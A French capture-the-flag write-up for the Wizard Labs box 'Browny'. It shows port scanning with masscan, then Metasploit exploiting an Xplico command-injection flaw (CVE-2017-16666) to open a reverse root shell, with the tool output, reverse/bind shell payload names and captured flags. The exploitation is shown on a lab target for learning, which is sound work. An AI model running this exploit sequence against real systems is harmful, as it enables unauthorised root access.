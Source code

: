 ```yaml
---
title: Solution du CTF Browny de Wizard-Labs
date: 2019-05-21 18:05:00
tags: [CTF, WizardLabs]
---
```


Chocoooooo
----------

*Browny* est un CTF de la plateforme *Wizard Labs*. Cette box donnée à une difficulté très faible (1/10) est basée sur Linux.  

On peut lancer un masscan pour lister les ports en écoute :  

```bash
$ sudo masscan -i tun0 -p1-65535 --rate 100 10.1.1.17

Starting masscan 1.0.4 (http://bit.ly/14GZzcT) at 2019-02-23 14:32:37 GMT
 -- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [65535 ports/host]
Discovered open port 80/tcp on 10.1.1.17                                       
Discovered open port 9876/tcp on 10.1.1.17                                     
Discovered open port 30005/tcp on 10.1.1.17                                    
Discovered open port 30001/tcp on 10.1.1.17                                    
Discovered open port 22/tcp on 10.1.1.17                                       
Discovered open port 30004/tcp on 10.1.1.17                                    
Discovered open port 30003/tcp on 10.1.1.17                                    
Discovered open port 30002/tcp on 10.1.1.17
```

On peut ensuite récupérer cet output pour extraire la liste des ports et les rebalancer avec Nmap. La commande suite va formater cette liste de ports en les séparant avec des virgules :  

```bash
$ grep Disco output.txt | cut -d' ' -f4| cut -d/ -f1 |paste -d ',' -s
80,9876,30005,30001,22,30004,30003,30002
```

En fouillant sur le port 80 avec un dirbuster on ne découvre ni dossier ni script PHP :(  

En revanche le service en écoute sur le port 9876, anoncé par Nmap comme un *Apache Hadoop* est en réalité un [Xplico](https://www.xplico.org/) qui est une appli web pour l'analyse forensics réseau.  

On passe ainsi un fichier PCAP et on peut l'explorer via *Xplico*. J'avais déjà utilisé ce soft qui est assez agréable d'utilisation.  

Bien sûr ici on est principalement intéressés par les vulnérabilités du logiciel plutôt que ses fonctionnalités.  

Metasploit dispose d'un module d'attaque dont voici la description et les payloads possibles :  

```plain
Description:
  This module exploits command injection vulnerability. 
  Unauthenticated users can register a new account and then execute a 
  terminal command under the context of the root user. The specific 
  flaw exists within the Xplico, which listens on TCP port 9876 by 
  default.

Compatible Payloads
===================

   Name                     Disclosure Date  Rank    Check  Description
   ----                     ---------------  ----    -----  -----------
   cmd/unix/bind_awk                         normal  No     Unix Command Shell, Bind TCP (via AWK)
   cmd/unix/bind_netcat                      normal  No     Unix Command Shell, Bind TCP (via netcat)
   cmd/unix/generic                          normal  No     Unix Command, Generic Command Execution
   cmd/unix/reverse_awk                      normal  No     Unix Command Shell, Reverse TCP (via AWK)
   cmd/unix/reverse_netcat                   normal  No     Unix Command Shell, Reverse TCP (via netcat)
```

L'exploitation n'a pas été à la hauteur de nos espérances :  

```plain
msf5 exploit(linux/http/xplico_exec) > run

[*] Started reverse TCP handler on 10.254.0.29:4444 
[*] Initiating new session on server side
[*] Registering a new user
[+] New user successfully registered
[*] Username: metnhsrpiveb
[*] Password: igMHipqNbEwaFoBVDqYFPXXQbEkIBCZV
[*] Calculating em_key code of the user
[*] Activating user with em_key = 3ad86d0ada1f91ab6357ca774ad0c2bf
[-] Exploit aborted due to failure: unknown: Could not activated our user. Target may not be vulnerable.
[*] Exploit completed, but no session was created.
```

Il est temps de ce pencher plus sur les détails de la vulnérabilité pour déterminer ce qui cloche.  

[L'article original](https://pentest.blog/advisory-xplico-unauthenticated-remote-code-execution-cve-2017-16666/) traitant de la faille mentionne une variable qu'il faut plus ou moins deviner car elle correspond au temps Unix et est utilisée pour réussir l'exploitation.  

L'exploit utilise donc le temps qu'il croit être juste... en gros il faut que toute l'exploitation se fasse dans une fenêtre d'une seconde pour ne pas être embêté :p  

Du coup c'est principalement le manque de chance... bref on relance jusqu'à ce que...  

```plain
[*] Started reverse TCP handler on 10.254.0.29:4444 
[*] Initiating new session on server side
[*] Registering a new user
[+] New user successfully registered
[*] Username: svfzydcg
[*] Password: apywpCMpmUjHBHhHnHRzIAMuNJNggYWZ
[*] Calculating em_key code of the user
[*] Activating user with em_key = 2edb880cb905936ab894e54db23abe18
[+] User successfully activated
[*] Authenticating with our activated new user
[+] Successfully authenticated
[*] Creating new case
[+] New Case successfully creted. Our pol_id = 7
[*] Creating new xplico session for pcap
[+] New Sols successfully creted. Our sol_id = 7
[*] Uploading malformed PCAP file
[+] PCAP successfully uploaded. Pcap parser is going to start on server side.
[*] Parsing has started. Wait for parser to get the job done...
[*] Exploit completed, but no session was created.
```

C'est mieux mais ça n'aboutit toujours pas. Il s'est avéré que l'upload des fichiers ne fonctionnait plus sur la machine pour une raison inconnue. Un reset de la machine plus tard :  

```plain
msf5 exploit(linux/http/xplico_exec) > run

[*] Started reverse TCP handler on 10.254.0.29:4444
[*] Initiating new session on server side
[*] Registering a new user
[+] New user successfully registered
[*] Username: qvxtanwgruta
[*] Password: KjixXsyUFbhjRiBSITzWbDjciGBsJrOP
[*] Calculating em_key code of the user
[*] Activating user with em_key = 027c6641ad1e36ebddf3ee5cb384e6a7
[+] User successfully activated
[*] Authenticating with our activated new user
[+] Successfully authenticated
[*] Creating new case
[+] New Case successfully creted. Our pol_id = 5
[*] Creating new xplico session for pcap
[+] New Sols successfully creted. Our sol_id = 5
[*] Uploading malformed PCAP file
[+] PCAP successfully uploaded. Pcap parser is going to start on server side.
[*] Parsing has started. Wait for parser to get the job done...
[+] We are at PCAP decoding phase. Little bit more patience...
[+] We are at PCAP decoding phase. Little bit more patience...
[+] We are at PCAP decoding phase. Little bit more patience...
[*] Command shell session 1 opened (10.254.0.29:4444 -> 10.1.1.17:57091) at 2019-02-23 16:33:59 +0100

id
uid=0(root) gid=0(root) groups=0(root)
pwd
/opt/xplico/bin
cd /root
ls
root.txt
cat root.txt
02240138a64d38ed22526a4a0f1ea9a1
ls /home
granit
cd /home/granit
cat user.txt
c553f25184be6a0e81be6cfc000d5b20
```

CTF parfait pour le 4h.  


*Published May 21 2019 at 18:05*
